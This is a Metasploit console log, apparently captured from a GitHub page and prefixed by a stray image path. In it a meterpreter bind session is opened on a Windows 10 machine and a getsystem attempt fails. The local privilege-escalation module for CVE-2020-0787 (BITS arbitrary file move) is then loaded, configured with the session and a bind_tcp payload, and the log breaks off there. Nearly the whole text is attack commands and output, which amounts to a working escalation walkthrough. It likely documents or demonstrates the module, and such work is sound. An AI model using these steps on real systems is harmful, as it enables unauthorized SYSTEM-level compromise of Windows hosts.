```
Exploit target:

   Id  Name
   --  ----
   0   Wildcard Target


msf5 exploit(multi/handler) > exploit

[*] Started bind TCP handler against 172.22.189.98:4444
[*] Sending stage (201283 bytes) to 172.22.189.98
[*] Meterpreter session 1 opened (0.0.0.0:0 -> 172.22.189.98:4444) at 2020-06-08 07:05:00 -0500

meterpreter > sysinfo
Computer        : DESKTOP-NRCNIDN
OS              : Windows 10 (10.0 Build 18363).
Architecture    : x64
System Language : en_US
Domain          : WORKGROUP
Logged On Users : 2
Meterpreter     : x64/windows
meterpreter > getsystem
[-] priv_elevate_getsystem: Operation failed: The environment is incorrect. The following was attempted:
[-] Named Pipe Impersonation (In Memory/Admin)
[-] Named Pipe Impersonation (Dropper/Admin)
[-] Token Duplication (In Memory/Admin)
meterpreter > background
[*] Backgrounding session 1...
msf5 exploit(multi/handler) > use exploit/windows/local/cve_2020_0787_bits_arbitrary_file_move
msf5 exploit(windows/local/cve_2020_0787_bits_arbitrary_file_move) > show options

Module options (exploit/windows/local/cve_2020_0787_bits_arbitrary_file_move):

   Name           Current Setting  Required  Description
   ----           ---------------  --------  -----------
   JOB_WAIT_TIME  60               yes       Time to wait for the BITS job to complete before starting the USO service to execute the uploaded payload, in seconds
   OVERWRITE_DLL  false            yes       Overwrite WindowsCreDeviceInfo.dll if it exists (false by default).
   SESSION                         yes       The session to run this module on.


Payload options (windows/x64/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  thread           yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST                      yes       The listen address (an interface may be specified)
   LPORT     4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Windows DLL Dropper


msf5 exploit(windows/local/cve_2020_0787_bits_arbitrary_file_move) > set SESSION 1
SESSION => 1
msf5 exploit(windows/local/cve_2020_0787_bits_arbitrary_file_move) > set PAYLOAD windows/x64/meterpreter/bind_tcp
```